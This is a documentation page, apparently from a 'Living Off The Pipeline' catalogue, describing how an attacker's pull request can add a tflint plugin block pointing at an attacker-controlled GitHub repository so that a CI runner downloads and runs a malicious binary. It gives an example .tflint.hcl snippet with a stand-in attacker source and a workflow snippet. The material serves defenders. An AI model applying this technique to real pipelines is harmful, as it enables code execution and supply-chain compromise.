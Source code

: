 ```yaml
---
layout: tool
title: tflint
parent: Living Off The Pipeline
nav_order: 27
---
```


## Living Off The Pipeline - tflint

`tflint` is a popular linter for the Terraform language. Its powerful plugin system can be abused by an attacker to execute arbitrary code, making it a "Living Off The Pipeline" (LOTP) tool.

### First-Order LOTP Tool

`tflint` is a **First-Order LOTP Tool**. It provides direct Remote Code Execution (RCE) by downloading and executing malicious plugins defined in its configuration file.

#### Malicious Primitive: Remote Code Execution (RCE)

The `.tflint.hcl` file is the configuration file for `tflint`. It allows a developer to enable and configure plugins. A plugin is a separate Go binary that `tflint` executes to perform custom rule checks.

The configuration for a plugin includes a `source` attribute, which tells `tflint` where to download the plugin binary from. An attacker can add a new plugin block to the `.tflint.hcl` file in their pull request, pointing the `source` to a malicious repository they control.

When the CI/CD pipeline runs `tflint --init`, it will download the attacker's malicious plugin. The subsequent `tflint` command will then execute this plugin, leading to RCE.

### Second-Order LOTP Attack Chain

1.  **Attacker's PR:** An attacker submits a pull request with a modified `.tflint.hcl` file containing a malicious plugin definition.
    ```hcl
    # .tflint.hcl
    plugin "pwned" {
      enabled = true
      version = "1.0.0"
      source  = "github.com/attacker/tflint-ruleset-pwned"
    }
    ```
    The attacker has published a malicious Go binary as a release asset in their `tflint-ruleset-pwned` repository.

2.  **Vulnerable Workflow:** The pipeline contains a standard set of commands to initialize and run the linter.
    ```yaml
    - name: Run tflint
      run: |
        tflint --init
        tflint
    ```

3.  **Execution:**
    *   The `tflint --init` command is executed.
    *   It reads the `.tflint.hcl` file and finds the attacker's malicious plugin definition.
    *   It downloads the malicious binary from the attacker's GitHub release.
    *   The `tflint` command runs, which in turn executes the downloaded plugin.
    *   The attacker's payload runs, achieving RCE on the CI runner.

This attack is dangerous because the CI/CD workflow file is benign. The malicious payload is downloaded and executed as a result of a seemingly safe configuration change in the linter's setup.

### References

*   [tflint: Managing Plugins](https://github.com/terraform-linters/tflint/blob/master/docs/user-guide/plugins.md)